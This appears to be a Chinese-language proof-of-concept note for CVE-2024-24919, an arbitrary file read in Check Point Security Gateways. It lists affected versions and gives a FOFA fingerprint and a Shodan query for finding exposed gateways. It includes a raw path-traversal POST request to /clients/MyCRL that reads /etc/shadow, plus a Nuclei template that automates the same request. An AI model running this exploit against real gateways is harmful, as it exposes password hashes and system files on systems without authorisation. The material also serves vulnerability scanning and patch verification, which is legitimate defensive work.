 ## Check-Point安全网关任意文件读取漏洞(CVE-2024-24919)

Check Point Security Gateways 是 Check Point Software 提供的一系列网络安全解决方案。这些解决方案包括下一代防火墙（NGFW）、数据中心安全网关和 AI 驱动的量子网关，旨在为企业提供针对复杂网络威胁的先进防护。它们通过集成的威胁防护、统一的安全管理和策略控制，确保网络、云、移动和端点的安全。

## fofa

```
icon_hash="1440532452"
```

## 影响版本

```
Check Point Security Gateways R77.20 (EOL)
Check Point Security Gateways R77.30 (EOL)
Check Point Security Gateways R80.10 (EOL)
Check Point Security Gateways R80.20 (EOL)
Check Point Security Gateways R80.20.x
Check Point Security Gateways R80.20SP (EOL)
Check Point Security Gateways R80.30 (EOL)
Check Point Security Gateways R80.30SP (EOL)
Check Point Security Gateways R80.40 (EOL)
Check Point Security Gateways R81
Check Point Security Gateways R81.10
Check Point Security Gateways R81.10.x
Check Point Security Gateways R81.20
```

## poc

```
POST /clients/MyCRL HTTP/1.1
Host: ip
Content-Length: 39

aCSHELL/../../../../../../../etc/shadow
```

![image-20240530235057951](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405302350018.png)



## poc yaml

```
id: CVE-2024-24919

info:
  name: Check Point Quantum Gateway - Information Disclosure
  author: johnk3r
  severity: high
  description: |
    CVE-2024-24919 is an information disclosure vulnerability that can allow an attacker to access certain information on internet-connected Gateways which have been configured with IPSec VPN, remote access VPN or mobile access software blade.
  reference:
    - https://labs.watchtowr.com/check-point-wrong-check-point-cve-2024-24919/
    - https://support.checkpoint.com/results/sk/sk182337
  metadata:
    max-request: 1
    vendor: checkpoint
    product: quantum_security_gateway
    cpe: cpe:2.3:h:checkpoint:quantum_security_gateway:*:*:*:*:*:*:*:*
    shodan-query: html:"Check Point SSL Network"
    verified: true
  tags: cve,cve2024,checkpoint,lfi

http:
  - raw:
      - |
        POST /clients/MyCRL HTTP/1.1
        Host: {{Hostname}}
        
        aCSHELL/../../../../../../../etc/shadow
        
    matchers-condition: and
    matchers:
      - type: regex
        part: body
        regex:
          - "root:"
          - "nobody:"
        condition: and

      - type: status
        status:
          - 200
```

